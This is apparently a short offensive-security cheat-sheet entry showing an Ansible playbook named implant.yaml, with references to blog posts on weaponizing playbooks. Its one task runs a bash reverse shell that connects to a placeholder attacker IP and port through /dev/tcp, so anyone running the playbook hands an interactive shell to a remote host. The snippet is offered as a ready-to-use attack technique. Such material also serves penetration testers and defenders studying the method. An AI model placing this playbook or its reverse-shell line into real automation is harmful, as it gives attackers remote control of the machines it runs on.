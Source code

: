 # Ansible Playbook

```
$ cat implant.yaml
- hosts: localhost
  tasks:
  - name: revshell
    shell: bash -c 'bash -i >& /dev/tcp/<attacker_IP>/<attacker_PORT> 0>&1'
```

---
## References

- [Rio Asmara Suryadi: Ansible Yml file for Reverse Shell](https://rioasmara.com/2023/10/08/ansible-yml-file-for-reverse-shell/)

- [Rio Asmara Suryadi: Ansible Playbook Weaponization](https://rioasmara.com/2022/03/21/ansible-playbook-weaponization/)